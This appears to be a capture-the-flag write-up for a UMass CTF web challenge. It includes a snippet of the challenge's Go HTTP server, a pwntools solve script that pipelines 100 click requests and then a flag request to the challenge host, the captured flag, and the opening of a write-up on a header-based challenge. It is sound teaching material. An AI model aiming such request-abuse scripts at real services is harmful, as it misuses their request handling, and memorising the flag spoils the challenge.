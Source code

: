 ```go
	r.conn.Write([]byte(fmt.Sprintf("HTTP/1.1 200 OK\r\nContent-Type: text/plain\r\n\r\n%s\nburgers: %d\n", message, r.burgers)))
}

func readHTTPHeader(reader *bufio.Reader) (string, error) {
	// Read headers until \r\n\r\n
	var requestLines []string
	for {
		line, err := reader.ReadString('\n')
		if err != nil {
			return "", err
		}
		requestLines = append(requestLines, line)
		// Check if the current line marks the end of the headers
		if line == "\r\n" {
			break
		}
	}
	return strings.Join(requestLines, ""), nil
}

```

solve.py
```python
from pwn import *

host = "crabby-clicker.ctf.umasscybersec.org" 
port = 80            

conn = remote(host, port)

# clicker
for i in range(100):
    print("Burger:", i+1)
    conn.send(f"GET /click HTTP/1.1\r\n")
    conn.send(f"Host: {host}\r\n")
    conn.send("\r\n")

# flag
conn.send(f"GET /flag HTTP/1.1\r\n")
conn.send(f"Host: {host}\r\n")
conn.send("\r\n")  
response = conn.recvall().decode()
print(response)

conn.close()
```

flag: **UMASS{y_w0uld_u_w4nt_mult1p13_r3qu35t5}**

---
# web/Holesome Birthday Party
Sponbebob's birthday party invitation. It requires specific headers to enter. When we first view the webpage, it said requires a `User-Agent`. We can see the requirements/hints in the response as we progress. 
